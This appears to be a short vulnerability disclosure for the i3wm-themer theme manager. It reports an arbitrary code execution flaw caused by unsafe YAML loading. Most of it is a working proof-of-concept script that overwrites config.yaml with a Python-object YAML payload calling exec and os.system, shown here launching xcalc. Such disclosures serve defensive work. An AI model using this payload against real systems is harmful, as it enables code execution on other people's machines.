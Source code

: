 # Description

`i3wm-themer` is the theme collection manager for i3-wm  which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
git clone https://github.com/unix121/i3wm-themer
cd i3wm-themer/
sudo pip install -r requirements.txt
```

### Run exploit.py
```
import os
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.system('git clone https://github.com/unix121/i3wm-themer')
os.chdir('i3wm-themer/')
os.system('rm config.yaml')
open('config.yaml','w+').write(payload)
os.system('python3 i3wm-themer.py --config config.yaml --install defaults/')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
